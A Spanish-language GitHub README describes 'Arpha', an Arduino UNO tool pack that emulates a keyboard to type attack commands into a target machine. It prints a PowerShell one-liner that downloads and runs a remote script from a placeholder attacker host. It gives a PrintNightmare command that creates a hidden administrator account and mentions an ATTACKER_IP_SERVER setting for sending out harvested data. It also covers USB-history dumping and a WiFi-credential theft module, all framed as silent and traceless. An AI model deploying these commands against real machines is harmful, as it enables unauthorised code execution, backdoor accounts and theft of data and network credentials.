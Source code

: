 
# Arpha - Mrx04programmer
<center>
<img src="https://raw.githubusercontent.com/mrx04programmer/Arpha/master/ico.png" width="250" align="right"><br>
</center>
Pack de herramientas para pruebas de penetración en sistemas por medio de Arduino UNO.


## Modulos
**Arpha**
Basado en extraer información organizada y silenciosamente , haciendose pasar por el teclado del dispositivo.
En la linea 28 del Archivo *Arpha.ino* se configura la linea de comando a correr:
<br><br><br>![COMMAND](https://raw.githubusercontent.com/mrx04programmer/Arpha/master/img/command.png)
Y en el campo donde se encuentra **'ATTACKER_IP_SERVER'** es donde se debe cambiar por la ip del servidor a enviar la petición y posteriormente su puerto especifico.

**Command Remote Powershell**
Logra descargar archivos remotos y ejecutarlos, sin dejar pistas por medio de powershell. Para configurar correctamente el archivo, se deberá cambiar el campo de **'https://PENTESTER_IP:PORT/File.ps1'** por la dirección correcta del servidor, puerto y ruta del archivo de powershell con extensión *ps1*.
```
Keyboard.print("iex (new-object net.webclient).downloadstring('https://PENTESTER_IP:PORT/File.ps1')");
```

**Escalation Privileges**
Lista de comandos que se ejecutaran automaticamente para lograr la escalación de privilegios y crear un usuario ficticio con privilegios de Administrador.
Su configuración es simple. por defecto el nombre del usuario a crear con los privilegios se llamará 'testing' y su contraseña 'cood', sin embargo estos son preferibles cambiarlos según el entorno de ataque. (Linea 37 - Escalation_Privileges.ino)
```
Keyboard.print("Invoke-Nightmare -NewUser 'testing' -NewPassword 'cood' -DriverName 'PrintMe'");
```

**MouseController**
La idea de MouseController es poder crear un Mouse virtual por medio del arduino conectado, en el método **loop** del archivo, se encuentra su configuración al gusto propio. Por defecto esta en *0*
![LOOP](https://raw.githubusercontent.com/mrx04programmer/Arpha/master/img/loop.png)<br>
<br>En la función de Mouse.move, se establecen las coordenadas a mover el ratón o mouse. Para ello se necesita saber que el primer dato es el valor de la coordenada **x**, es decir horizontal, luego separado de una coma(,) se asgina el valor de **y**, es decir vertical y separado de una coma(,) se asigna el valor al mover la rueda del ratón o mouse.


**USB Report**
Mostrará el historial de las USBs posibles y los guardará en un archivo salida. El archivo de salida se puede cambiar (nombre de salida: **output.txt**):
```
ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Enum\USBSTOR\*\* > output.txt | Select FriendlyName >> output.txt 
```

**Wifi**
El modulo de Wifi es especializado en el arte del pentesting llamado Steal Wifi Info, el cual se trata de obtener la información importante de los Access Point que han sido conectados en el objetivo.

## Arduino Interpretación
<img align="left" src="https://raw.githubusercontent.com/mrx04programmer/Arpha/master/img/arduino.png" width="350">
<div>

1. Al oprimir el botón , envíara el código a compilarlo 
2. Recibirá las ordenes y las leerá
3. Enviará nuevamente las peticiones pero al dispositivo como salida.
</div>

<br><a href="#"><img src="https://img.shields.io/badge/Versión%20De%20Software-1.0-b?style=plastic&color=white&logoColor=black"></a>
<a href="#"><img src="https://img.shields.io/badge/Lenguaje%20Utilizado-Arduino-b?style=plastic&logo=arduino&color=informational&logoColor=white"></a>



